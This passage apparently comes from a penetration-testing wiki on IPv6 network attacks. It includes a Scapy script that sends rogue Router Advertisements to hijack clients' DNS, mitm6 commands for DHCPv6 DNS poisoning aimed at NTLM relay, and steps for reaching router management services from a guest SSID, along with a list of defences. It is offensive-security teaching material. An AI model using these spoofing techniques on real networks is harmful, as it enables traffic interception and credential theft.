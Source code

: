 ```
args = p.parse_args()

ra = (IPv6(src=args.llip,dst='ff02::1',hlim=255)/
      ICMPv6ND_RA(routerlifetime=0)/
      ICMPv6NDOptRDNSS(dns=[args.dns],lifetime=args.lifetime))

send(ra,iface=args.interface,loop=1,inter=args.interval)
```
```
Clients will **prepend** your DNS to their resolver list for the given lifetime, granting full DNS hijacking until the value expires or you send a `lifetime=0` revert.

### DHCPv6 DNS Spoofing (mitm6)

Instead of SLAAC, Windows networks often depend on **stateless DHCPv6** for DNS.  [[https://github.com/rofl0r/mitm6|mitm6]] automatically replies to `Solicit` messages with an **Advertise → Reply** flow that assigns **your link-local address as DNS for 300 seconds**.  This unlocks:

* NTLM relay attacks (WPAD + DNS hijacking)
* Intercepting internal name resolution without touching routers

Typical usage:

```bash
sudo mitm6 -i eth0 --no-ra # only DHCPv6 poisoning
```
```
### Defences

* **RA Guard / DHCPv6 Guard / ND Inspection** on managed switches.
* Port ACLs that allow only the legitimate router’s MAC to send RAs.
* Monitor for **unsolid high-rate RAs** or sudden **RDNSS changes**.
* Disabling IPv6 on endpoints is a temporary workaround that often breaks modern services and hides blind spots – prefer L2 filtering instead.

### NDP Router Discovery on Guest/Public SSIDs and Management Service Exposure

Many consumer routers expose management daemons (HTTP(S), SSH/Telnet, TR-069, etc.) on all interfaces. In some deployments, the “guest/public” SSID is bridged to the WAN/core and is IPv6-only. Even if the router’s IPv6 changes on every boot, you can reliably learn it using NDP/ICMPv6 and then direct-connect to the management plane from the guest SSID.

Typical workflow from a client connected to the guest/public SSID:

1) Discover the router via ICMPv6 Router Solicitation to the All-Routers multicast `ff02::2` and capture the Router Advertisement (RA):

```bash
# Listen for Router Advertisements (ICMPv6 type 134)
sudo tcpdump -vvv -i <IFACE> 'icmp6 and ip6[40]==134'

# Provoke an RA by sending a Router Solicitation to ff02::2
python3 - <<'PY'
from scapy.all import *
send(IPv6(dst='ff02::2')/ICMPv6ND_RS(), iface='<IFACE>')
PY
```
```
The RA reveals the router’s link-local and often a global address/prefix. If only a link-local is known, remember that connections must specify the zone index, e.g. `ssh -6 admin@[fe80::1%wlan0]`.

Alternative: use ndisc6 suite if available:

```bash
# rdisc6 sends RS and prints RAs in a friendly way
```
